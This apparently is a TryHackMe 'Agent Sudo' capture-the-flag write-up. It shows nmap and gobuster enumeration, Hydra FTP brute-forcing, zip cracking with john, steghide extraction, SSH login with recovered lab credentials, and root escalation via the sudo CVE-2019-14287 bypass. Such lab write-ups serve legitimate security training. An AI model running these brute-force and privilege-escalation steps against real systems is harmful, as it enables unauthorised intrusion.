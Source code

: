 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
image:
    path: /assets/img/Agent_sudo/0.png
    alt: Agent sudo
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Task 2: Enumerate
### Task 3: Hash cracking and brute-force
### Task 4: Capture the user flag  
### Task 5: Privilege escalation



## Enumerate
### nmap

```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![](/assets/img/Agent_sudo/1.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![](/assets/img/Agent_sudo/2.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

## bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![](/assets/img/Agent_sudo/3.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![](/assets/img/Agent_sudo/4.png)


we got the file, concatenate it:  
![](/assets/img/Agent_sudo/5.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![](/assets/img/Agent_sudo/6.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![](/assets/img/Agent_sudo/10.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![](/assets/img/Agent_sudo/7.png)

## Privilege escalation
Run sudo -l  
![](/assets/img/Agent_sudo/8.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![](/assets/img/Agent_sudo/9.png)
